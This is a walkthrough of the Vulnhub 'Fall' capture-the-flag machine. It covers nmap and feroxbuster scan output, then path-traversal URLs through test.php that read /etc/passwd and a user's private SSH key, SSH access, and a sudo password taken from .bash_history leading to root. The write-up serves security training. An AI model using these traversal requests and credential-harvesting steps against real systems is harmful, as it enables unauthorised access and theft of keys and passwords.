









# Fall (From Vulnhub)

## Enumeration

**NMAP SCAN**

```
# Nmap 7.93 scan initiated Mon Jan 16 04:41:07 2023 as: nmap -A -oA nmap/fall -vv 192.168.29.134
Nmap scan report for 192.168.29.134
Host is up, received syn-ack (0.63s latency).
Scanned at 2023-01-16 04:41:08 IST for 100s
Not shown: 913 filtered tcp ports (no-response), 76 filtered tcp ports (host-unreach)
PORT     STATE  SERVICE     REASON       VERSION
22/tcp   open   ssh         syn-ack      OpenSSH 7.8 (protocol 2.0)
| ssh-hostkey:
|   2048 c586f96427a4385b8a11f9444b2aff65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBezJ/KDio6Fwya44wrK4/39Vd93TBRE3CC7En4GJYCcT89paKDGhozzWU7pAFV5FqWbBZ5Z9pJIGhVNvmIIYR1YoyTbkF3qbf41XBGCmI87nLqYxFXQys3iycBYah3qMxkr24N4SvU+OIOWItFQZSNCK3BzYlCnxFNVNh4JLqrI/Og40EP5Ck7REorRRIraefdROKDqZHPeugwV1UHbISjyDsKChbpobQxVl80RT1dszhuUU1BvhJl1sy/opLQWdRjsl97L1c0lc87AFcd6PgsGf6UFURN+1RaVngnZBFWWnYUb/HfCbKJGseTgATk+Fk5+IBOrlXJ4fQ9/SkagXL
|   256 e1000bcc5921696c1ac17722395a354f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAFLZltNl1U6p8d7Su4gH+FQmIRRpZlAuOHrQYHYdGeWADfzBXlPSDkCrItb9doE6+ACyru5Fm023LgiTNg8yGU=
|   256 1d4e146d20f456da65836f7d339df0ed (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEeQTBvJOPKDtUv+nJyQJ9rKdAmrC577XXaTjRI+2n3c
80/tcp   open   http        syn-ack      Apache httpd 2.4.39 ((Fedora) OpenSSL/1.1.0i-fips mod_perl/2.0.10 Perl/v5.26.3)
|_http-generator: CMS Made Simple - Copyright (C) 2004-2021. All rights reserved.
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.39 (Fedora) OpenSSL/1.1.0i-fips mod_perl/2.0.10 Perl/v5.26.3
|_http-title: Good Tech Inc's Fall Sales - Home
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: EBF500D206705BDA0CB79021C15DA98A
111/tcp  closed rpcbind     conn-refused
139/tcp  open   netbios-ssn syn-ack      Samba smbd 3.X - 4.X (workgroup: SAMBA)
443/tcp  open   ssl/http    syn-ack      Apache httpd 2.4.39 ((Fedora) OpenSSL/1.1.0i-fips mod_perl/2.0.10 Perl/v5.26.3)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/emailAddress=root@localhost.localdomain
| Subject Alternative Name: DNS:localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/organizationalUnitName=ca-2683772458131447713/emailAddress=root@localhost.localdomain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-08-15T03:51:33
| Not valid after:  2020-08-19T05:31:33
| MD5:   ac5122da893a4d9507ba3e825780bf24
| SHA-1: 8821fdc67f1bac6a2c7b6a32194ded44b5532cf4
| -----BEGIN CERTIFICATE-----
| MIIE4DCCAsigAwIBAgIIV5TaF3XKfxowDQYJKoZIhvcNAQELBQAwgY8xCzAJBgNV
| BAYTAlVTMRQwEgYDVQQKDAtVbnNwZWNpZmllZDEfMB0GA1UECwwWY2EtMjY4Mzc3
| MjQ1ODEzMTQ0NzcxMzEeMBwGA1UEAwwVbG9jYWxob3N0LmxvY2FsZG9tYWluMSkw
| JwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9zdC5sb2NhbGRvbWFpbjAeFw0xOTA4
| MTUwMzUxMzNaFw0yMDA4MTkwNTMxMzNaMG4xCzAJBgNVBAYTAlVTMRQwEgYDVQQK
| DAtVbnNwZWNpZmllZDEeMBwGA1UEAwwVbG9jYWxob3N0LmxvY2FsZG9tYWluMSkw
| JwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9zdC5sb2NhbGRvbWFpbjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAKY2vdPnY38fq4HuMzEIZwz2PfMutxbg
| xdxMBJMk8eM9vwwMmDyiMuEMfy46w5gvCgo5zmq4VoQYKJxrcUIogiDqzLC/Pjfq
| jSvFooDih5naltrhaoZvTHlu8Q4G0TmwhaaYpedqkhPzVLHywkckVBu9P9unrrlI
| BI3+N3aZLTppsk1gTe67tUjhpeiMQKkYWhtgTG3upSAI9FjsB9LNhw8CyIM+VFHj
| 2YHFlvp+Jt1A+u+vMtfDm5A86/MpdeWpLKbLTjgNk0Q79VPU0UBnoSKcS2RwAVRM
| QkR3lLoOEGu/DLz84EQP1r9m5jLZX5p5Gc0qaa9/FG3ll9DLRL+gggsCAwEAAaNg
| MF4wDgYDVR0PAQH/BAQDAgWgMAkGA1UdEwQCMAAwIAYDVR0RBBkwF4IVbG9jYWxo
| b3N0LmxvY2FsZG9tYWluMB8GA1UdIwQYMBaAFNch7n7MGaSjmr7qLPAGmH5iWQnd
| MA0GCSqGSIb3DQEBCwUAA4ICAQBxLU3j7e5B47e3oO7dHrZrl6fTxAPORYcPWM19
| Qjwq4wBluFliGz918zGukOrDQdb2WEhbJj1X2SNsLhqa6i/nEi+GKQ7XzMwpOxTg
| vY3bFV1y550Uac/kj6lSXLIgRllLruuQOOLHsfz9BhTe5ZbSO0N20XhvHqhxbd6s
| EBqKZeSbnweXnHUeiev/7IceZaxoWHqJ4CfM1PUXnJZL+NuWGPAfzMfv5F7ap66T
| d1bc9xBvg9jbvP4RtmGT0QwpUTCpsXBLS3WuZjq9/jcxvyubwVfIidGCMGoiGNqy
| pHI+XgYH3f/9W56QgxuUIjctLTeU8v5YZlS7vw58whxaZ0j3xQd50RZ+YFPTXnsy
| L2oAOZ8Lb57SKMM/RKYju5cvSQjtTRz+KnHqZHwDA46b2WKOUONrlNvm7Hp0dICB
| RLfD150FOj8L914sNFh85M2Sj1BFHKDSNu9ootIZg0uUxwJNGrOuzY0vlRiAJTOA
| Sw3FNGWb1UWyAXjO1DGL2YEnW2phXMdml4MttR6HoDgw689ra0q67xNWRyNOEc00
| OdANMqq4PpF3W58/o8zRriePTQiGYltb95DUS5skFm/ScJ9PvElefLn5MkgnhKEC
| htGW8shfB4Rhc9r+03JJpflvJ48EtS/TikQNTyO4B9p1bEguRVbWzx6Tf/rLEYdb
| GBMBjA==
|_-----END CERTIFICATE-----
| tls-alpn:
|_  http/1.1
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Good Tech Inc's Fall Sales - Home
|_http-server-header: Apache/2.4.39 (Fedora) OpenSSL/1.1.0i-fips mod_perl/2.0.10 Perl/v5.26.3
|_ssl-date: TLS randomness does not represent time
|_http-generator: CMS Made Simple - Copyright (C) 2004-2021. All rights reserved.
|_http-favicon: Unknown favicon MD5: EBF500D206705BDA0CB79021C15DA98A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
445/tcp  open   netbios-ssn syn-ack      Samba smbd 4.8.10 (workgroup: SAMBA)
3306/tcp open   mysql       syn-ack      MySQL (unauthorized)
8000/tcp closed http-alt    conn-refused
8080/tcp closed http-proxy  conn-refused
8443/tcp closed https-alt   conn-refused
9090/tcp open   http        syn-ack      Cockpit web service 162 - 188
|_http-title: Did not follow redirect to https://192.168.29.134:9090/
| http-methods:
|_  Supported Methods: GET HEAD
Service Info: Host: FALL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.8.10)
|   Computer name: fall
|   NetBIOS computer name: FALL\x00
|   Domain name: \x00
|   FQDN: fall
|_  System time: 2023-01-15T13:54:38-08:00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 29654/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 62511/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 28288/udp): CLEAN (Timeout)
|   Check 4 (port 54625/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2023-01-15T21:54:37
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h22m09s, deviation: 4h37m08s, median: -1h17m51s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 16 04:42:48 2023 -- 1 IP address (1 host up) scanned in 100.40 seconds
```

- Found **Apache httpd 2.4.39 ((Fedora)**  is running a website on the target machine, used ports **80** and **443**.

### Enumerating the website

- On Browser:



- from the homepage footer, we found the name and version of the CMS that is running,



- By googling online we found that **CMS Made Simple** of version **2.2.15** is vulnerable, but we need a valid CMS login to execute our exploit, so let's trying finding more;
[**EDB-ID: 49345 ExploitDB**](https://www.exploit-db.com/exploits/49345)

- From the blog posts author, we found that maybe **qiu** is could be the user on the target machine.



**Directory Fuzzing**

**Feroxbuster**:

- **command:**
 `feroxbuster -u http://192.168.29.134 -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -s 200 -o feroxbuster/feroxbuster.txt -x php`
- **output:** 
```
200      GET      296l      552w        0c https://192.168.29.134/
MSG      0.000 feroxbuster::heuristics detected directory listing: https://192.168.29.134/assets (Apache)
200      GET        3l        6w     1150c https://192.168.29.134/favicon.ico
200      GET      296l      552w        0c https://192.168.29.134/index.php
MSG      0.000 feroxbuster::heuristics detected directory listing: https://192.168.29.134/modules (Apache)
200      GET        1l        3w        0c https://192.168.29.134/phpinfo.php
MSG      0.000 feroxbuster::heuristics detected directory listing: https://192.168.29.134/lib/assets (Apache)
200      GET        1l        5w       24c https://192.168.29.134/doc/index.html
200      GET        7l       14w       79c https://192.168.29.134/robots.txt
MSG      0.000 feroxbuster::heuristics detected directory listing: https://192.168.29.134/tmp (Apache)
200      GET        1l        5w       24c https://192.168.29.134/lib/index.html
200      GET      296l      552w        0c http://192.168.29.134/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/assets (Apache)
200      GET        3l        6w     1150c http://192.168.29.134/favicon.ico
200      GET      296l      552w        0c http://192.168.29.134/index.php
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/modules (Apache)
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/lib/assets (Apache)
200      GET        1l        3w        0c http://192.168.29.134/phpinfo.php
200      GET        7l       14w       79c http://192.168.29.134/robots.txt
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/tmp (Apache)
200      GET        1l        5w       24c http://192.168.29.134/doc/index.html
200      GET        1l        5w       24c http://192.168.29.134/lib/index.html
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/lib/lang (Apache)
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/admin/themes (Apache)
200      GET        1l        5w       24c http://192.168.29.134/admin/lang/index.html
200      GET        0l        0w        0c http://192.168.29.134/uploads/index.html
200      GET        1l        5w       24c http://192.168.29.134/admin/plugins/index.html
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/uploads/pages (Apache)
200      GET        1l        5w       24c http://192.168.29.134/lib/plugins/index.html
200      GET        1l        5w       24c http://192.168.29.134/admin/templates/index.html
200      GET        1l        5w       24c http://192.168.29.134/lib/classes/internal/index.html
200      GET        1l        5w       24c http://192.168.29.134/admin/lang/ext/index.html
200      GET        1l        5w       24c http://192.168.29.134/lib/phpmailer/index.html
200      GET        0l        0w        0c http://192.168.29.134/uploads/images/index.html
200      GET        1l        5w       24c http://192.168.29.134/lib/jquery/js/index.html
200      GET      296l      552w        0c http://192.168.29.134/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/assets (Apache)
200      GET        0l        0w        0c http://192.168.29.134/config.php
200      GET        3l        6w     1150c http://192.168.29.134/favicon.ico
200      GET      296l      552w        0c http://192.168.29.134/index.php
200      GET        1l        5w       24c http://192.168.29.134/doc/index.html
200      GET        1l        3w        0c http://192.168.29.134/phpinfo.php
200      GET        7l       14w       79c http://192.168.29.134/robots.txt
200      GET       78l      283w        0c http://192.168.29.134/admin/login.php
200      GET        5l        7w        0c http://192.168.29.134/test.php
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/tmp (Apache)
200      GET        1l        5w       24c http://192.168.29.134/lib/index.html
200      GET        0l        0w        0c http://192.168.29.134/lib/include.php
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/lib/jquery (Apache)
200      GET        1l        5w       24c http://192.168.29.134/modules/News/index.html
200      GET        1l        5w       24c http://192.168.29.134/modules/Search/index.html
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.29.134/admin/themes (Apache)
200      GET      504l     4372w    26421c http://192.168.29.134/lib/phpmailer/LICENSE
200      GET        1l        5w       24c http://192.168.29.134/modules/News/images/index.html
200      GET        1l        5w       24c http://192.168.29.134/lib/assets/images/index.html
200      GET        1l        5w       24c http://192.168.29.134/lib/tasks/index.html
200      GET        1l        5w       24c http://192.168.29.134/admin/templates/index.html
200      GET        0l        0w        0c http://192.168.29.134/lib/lang/help/en_US.php
200      GET        1l        5w       24c http://192.168.29.134/lib/lang/help/index.html
200      GET        1l        5w       24c http://192.168.29.134/lib/phpmailer/language/index.html
```

- through the above scan we found an interesting page: **test.php**



- The page prompt us with the message "Missing GET parameter", indicates that we could try to fetch some files from the target:
	- Modified URL:
		`http://192.168.29.134/test.php?file=../../../etc/passwd`

		
	- Return us with the desired output.

## Exploitation

- Now that we can fetch files from our target computer, let's try to fetch the private key for user **qiu** that we found out:
	- Modified URL:
		`http://192.168.29.134/test.php?file=../../../home/qiu/.ssh/id_rsa`
		

- SSH into the target machine:
 


### Enumerating more the target machine

- Checking for some useful files and folders in the home directory:


- Found sudo password in the .bash_history file.

## Escalating Privileges.

- `sudo su`
- and then the password we found:

